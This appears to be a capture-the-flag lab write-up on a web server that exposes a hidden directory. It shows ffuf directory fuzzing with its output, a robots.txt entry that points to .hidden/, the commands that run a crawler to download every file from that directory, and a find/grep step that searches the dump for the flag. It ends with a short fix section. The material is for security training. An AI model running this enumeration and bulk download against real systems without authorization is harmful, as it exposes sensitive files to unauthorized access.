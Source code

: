 # File and Directory Exposure via accessible ```.hidden/``` directory

## 📖 Vulnerability Explanation
File and directory exposure is a misconfiguration vulnerability that allows an unauthorized user access to sensitive resources.

## ⚙️ Exploitation Process

- Enumerate the web directories via web fuzzing:

```
ffuf -u 'http://BornToSec.com/FUZZ' -w /sgoinfre/students/apena-ba/cybersecurity/SecLists/Discovery/Web-Content/big.txt -fs 975

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://BornToSec.com/FUZZ
 :: Wordlist         : FUZZ: /sgoinfre/students/apena-ba/cybersecurity/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 975
________________________________________________

admin                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 4ms]
audio                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 2ms]
css                     [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
errors                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
favicon.ico             [Status: 200, Size: 1406, Words: 2, Lines: 2, Duration: 0ms]
fonts                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 5ms]
images                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
includes                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 1ms]
js                      [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
robots.txt              [Status: 200, Size: 53, Words: 4, Lines: 4, Duration: 0ms]
whatever                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 12ms]
:: Progress: [20478/20478] :: Job [1/1] :: 12500 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

---

- Reading the ```robots.txt``` file reveals a directory called ```.hidden/```:

```
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

---

The folder contains one ```README``` file and a tree of directories and subdirectories containing more ```README``` files. We coded a python script to crawl all the files in the directory ```.hidden/``` and its subdirectories.

---

We coded a script to download all the files recursively present in a web server configured for directory listing.

In order to run it, we must create a python virtual environment and install the required packages using the ```requirements.txt``` file.

```
python3 -m venv my-python-env
```
```
./my-python-env/bin/pip3 install -r requirements.txt
```
```
./my-python-env/bin/python3 crawl.py 'http://BornToSec.com/.hidden/' ./dump
```

---

- Look for the flag using the command find:

```
find ./dump -type f -exec grep flag {} \; -exec echo -e '\n[+] Flag found in file:' {} '\n' \;
```

## 🔧 Fix
To prevent unwanted exposure of resources, we must implement a solid server configuration. Additionally, performing testing and security assessments regularly is recommended to ensure there are no misconfurations.

## ☝️🤓 Advanced explanation
The script we coded is a web crawler that downloads all files from a given base URL where directory listing is enabled. It recursively goes over routes and saves them, to then download all the files, showing the progress status. 

Usage:

```
python3 crawl.py <url> <directory>
```

- **url** → Base URL to crawl

- **directory** → Local folder to save files (created if missing)

Example:

```
python3 crawl.py "http://BornToSec.com/.hidden/" ./dump
```